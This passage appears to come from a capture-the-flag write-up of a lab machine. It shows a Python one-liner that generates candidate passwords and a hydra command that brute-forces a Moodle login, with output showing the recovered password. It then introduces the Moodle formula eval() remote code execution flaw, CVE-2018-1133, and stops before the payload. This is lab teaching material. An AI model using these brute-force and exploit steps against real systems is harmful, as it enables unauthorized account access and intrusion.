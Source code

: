 ### Brute Force Giovanni

From the note I know all but the last character of the password to log
into something. I'm going to guess/hope that's Moodle. I'll use `python`
to generate passwords:



    root@kali# python3 -c 'import string; print("\n".join([f"Th4C00lTheacha{c}" for c in string.printable[:-5]]))' > passwords



For those not familiar with the python list comprehension syntax, here's
what that one-liner is doing:

-   First I import the string library.
-   `[f"Th4C00lTheacha{c}" for c in string.printable[:-5]]` creates an
    array. To do so, it will loop over the elements of
    `string.printable` (technically all but the last 5 which I've left
    off with `[:-5]`). For each element, it will add
    `f"Th4C00lTheacha{c}"` to the array, where `c` is the element. This
    is the python f-string format, so `{c}` is just replaced with the
    variable value.
-   Now with an array of the password with lots of different last
    characters, I'll pass that to `'\n'.join(array)`, which builds a
    string by combining all the elements with `\n`.
-   That is printed and redirected to a file, `passwords`.

Now I'll use `hydra` to try them and find the password:



    root@kali# hydra -l Giovanni -P passwords 10.10.10.153 http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login"                 
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.                                                                                            

    Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-04 11:16:47
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 95 login tries (l:1/p:95), ~6 tries per task
    [DATA] attacking http-post-form://10.10.10.153:80//moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login                                                                         
    [80][http-post-form] host: 10.10.10.153   login: Giovanni   password: Th4C00lTheacha#
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2018-12-04 11:17:24



### RCE in moodle

#### Background

[CVE-2018-1133](https://blog.ripstech.com/2018/moodle-remote-code-execution/)
was a vulnerability that allows any user in the teacher role to get
remote code execution through Moodle. The vulnerability is in the part
of the code that allows a teacher to define a problem like "What is
{x} + {y}?", and have different x and y for each student. Moodle picks a
random x and y, and then gets the answer by calling php's `eval()` on
the formula input. So if I can poison the input, I can get it to run my
code. The
[post](https://blog.ripstech.com/2018/moodle-remote-code-execution/)
gives the following string that will give execution and bypass filters:
